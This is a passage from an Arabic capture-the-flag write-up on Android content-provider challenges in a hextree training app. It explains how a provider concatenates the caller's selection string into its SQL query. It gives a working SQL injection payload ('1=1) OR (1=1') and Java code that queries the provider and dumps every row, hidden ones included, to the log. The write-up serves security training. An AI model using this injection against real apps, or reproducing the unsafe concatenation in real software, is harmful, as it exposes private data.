 بيسكان نتائج الاستعلام لأي صف اسمه "flag32" ويرجع true فقط إذا flag32 موجود وظاهر

**باختصار**:

ده كمان بيحدد نفس matchers من الـ flags اللي فاتت. method الـ `query()` نقدر نمشي فيه بطريقتين:

1. لاستعلامات Flag فردية (FLAG_ID, match == 2)
    
    - باستخراج الـ ID من الـ URI (مثلاً، `/flag/32` → ID 32) والاستعلام عنه مع `visible=1` ويرجع إذا لقى مطابقة
2. لاستعلام Flags عام (FLAGS, match == 1)
    
    - إنشاء query مع `visible=1` ثم إضافة أي معايير اختيار إضافية إذا توفرت وبعد تنفيذ الاستعلام، بيشيك إذا النتائج فيه "flag32" باستخدام `containsFlag32()`
    - إذا لقاه بيشغل success بتاعنا

#### الحل

المفتاح في الجزء الثاني لأنه بيبني الفلاتر للاستعلام (sql query) وياخد input مباشرة وده بيخليه عرضة لـ sql injection (Boolean based sql injection)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
        if (containsFlag32(query)) {
            success(logHelper);
            query.requery();
        }
        return query;
```

يعني

```sql
visible=1 AND ( أي حاجة) --الأصلي
visible=1 AND (1=1) OR (1=1) --شكل الـ payload بتاعنا
```

```java
Uri uri = Uri.parse("content://io.hextree.flag32/flags");  
Cursor cursor = getContentResolver().query(uri, null, "1=1) OR (1=1", null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 33_1

#### تحليل الكود

